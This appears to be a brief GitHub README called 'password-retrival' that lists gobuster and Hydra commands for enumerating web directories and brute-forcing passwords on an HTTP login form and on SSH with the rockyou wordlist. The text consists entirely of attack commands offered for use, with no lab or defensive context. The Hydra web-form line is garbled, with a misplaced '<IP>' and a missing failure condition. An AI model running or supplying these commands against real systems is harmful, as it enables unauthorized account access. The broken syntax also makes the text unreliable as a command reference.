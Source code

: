 # password-retrival

Using go gobuster
Hydra and more 


gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password1<IP>=^PASS^:

hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <IP>-t 4 ssh 



 
